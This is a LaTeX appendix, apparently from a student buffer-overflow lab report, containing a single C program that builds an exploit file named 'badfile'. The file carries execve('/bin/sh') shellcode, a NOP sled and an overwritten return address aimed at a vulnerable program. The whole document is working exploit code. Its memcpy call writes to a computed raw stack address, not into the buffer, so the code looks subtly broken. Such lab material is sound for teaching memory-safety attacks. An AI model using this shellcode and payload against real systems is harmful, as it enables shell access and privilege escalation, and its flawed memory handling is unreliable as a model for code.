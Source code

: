 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"      /* xorl  %eax,%eax   */
"\x50"          /* pushl %eax        */
"\x68""//sh"    /* pushl $0x68732f2f */
"\x68""/bin"    /* pushl $0x6e69622f */
"\x89\xe3"      /* movl  %esp,%ebx   */
"\x50"          /* pushl %eax        */
"\x53"          /* pushl %ebx        */
"\x89\xe1"      /* movl  %esp,%ecx   */
"\x99"          /* cdql              */
"\xb0\x0b"      /* movb  $0x0b,%al   */
"\xcd\x80"      /* int   $0x80       */
;

void main(int argc, char **argv)
{  
  char buffer[517];
  FILE *badfile;
  long fcP;
  int buffer_size, shell_code_size;
  
  buffer_size = sizeof(buffer);
  shell_code_size = sizeof(shellcode);
  
  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);
  
  /* You need to fill the buffer with appropriate contents here */
  printf("Size of shellcode: %d\n", sizeof(shellcode));
  
  /* Print stack pointer */
  fcP = &buffer;
  
  /* Make sure is multiple of 4 */ 
  while(fcP % 4 != 0) {
    fcP += 1;
  }
  
  printf ("Using Stack pointer at address: %x\n", fcP);
  printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
  
  /* Compute how far we can palce shell code, we want it towards the end of buffer */
  long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
  printf ("I will start writing to %08x\n", address_to_copy_to);
  
  /* We use address of buffer as reference, but we want to jump a bit more into the stack, yet not too far */
  fcP += 80;
  
  /* Place the address we want to in a position that would overwrite return address (16 bytes into stack) */
  long addr = fcP;
  long *ptr = (long*)(buffer + 16);
  *(ptr) = addr;
  
  /* Copy shellcode */
  memcpy(address_to_copy_to, shellcode, shell_code_size);
  
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

\end{appendices}
\end{document}
